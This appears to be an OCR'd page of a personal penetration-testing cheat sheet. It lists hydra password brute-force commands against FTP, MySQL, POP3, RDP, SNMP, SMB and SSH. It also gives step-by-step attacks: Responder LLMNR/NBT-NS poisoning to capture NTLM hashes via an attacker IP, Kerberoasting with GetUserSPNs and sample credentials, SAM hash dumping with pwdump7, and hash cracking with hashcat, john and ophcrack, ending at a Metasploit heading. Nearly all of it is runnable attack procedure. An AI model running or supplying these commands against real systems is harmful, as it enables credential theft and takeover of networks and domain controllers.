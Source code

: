 • 

- hydra -l root -P passwords.txt [-t 32] <IP> ftp
- hydra -L usernames.txt -P pass.txt <IP> mysql
- hydra -l USERNAME -P /path/to/passwords.txt -f <IP> pop3 -V
- hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
- hydra -P common-snmp-community-strings.txt target.com snmp
- hydra -l Administrator -P words.txt 192.168.1.12 smb -t 1
- hydra -l root -P passwords.txt <IP> ssh

• 

- hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10
- -------------------------------------------------------------------
- Active Directory Attack Tool:

• 

- (In kali)Responder(LLMNR NBTNS Poisoning):
- Location: >cd  /usr/share/responder  (in this dic u will have responder.py file)
- #python Responder.py
- #python Responder.py -I eth0 -rdwv  (works as listener and capture the hashes and dump it on the screen and save as hash.txt)
- Simultanouly Request to the Attacker Ip to get hash quickly.on search bar in file sys \\<attacker-ip>
- Crack that hash and Get the password out of it 
- #hashcat -m 5600 hash.txt rockyou.txt --force -O --show
- or
- john ntlm.txt
- and Login to Domain controller.

• 

- (In kali)GetUserSPN(kerberoasting-service attack):
- > locate GetUser
- Location: >cd /usr/share/doc/python3-impacket/examples/GetUserSPNs.py  (in this dic u will have GetUserSPNs.py file)
- Formate:
- #python GetUserSPNs.py <domain-name>/<user-name>:<user-password> -dc-ip <ip-of-domain-controller> -request
- for ex:        
- #python GetUserSPNs.py BITTENTECH.local/anshb:Password123 -dc-ip 192.168.75.136 -request
- This will Dump the Service Ticket Here in hash formate
- Now crack the hash With Hashcat and get the password(if weak):
- #hashcat -m 13100 hash.txt rockyou.txt --force -O

• 

- Dumping and cracking SAM Hashes
- >Open cmd in admin mode and run(on windows)
- >wmic useraccount get name,sid
- it will show all users and their id's
- >use this tool to dump the users hash:https://github.com/Seabreg/pwdump
- >locate to pwdump7 Folder and and locate the Folder in cmd 
- >pwdump7.exe
- it will dump all hash from SAM file
- Save this hash and pass to Cracking Tool(ophcrack) to crack the Hashs and Know th Actual Passwords
- -------------------------------------------------------------------
- Metasploit/searchsploit:
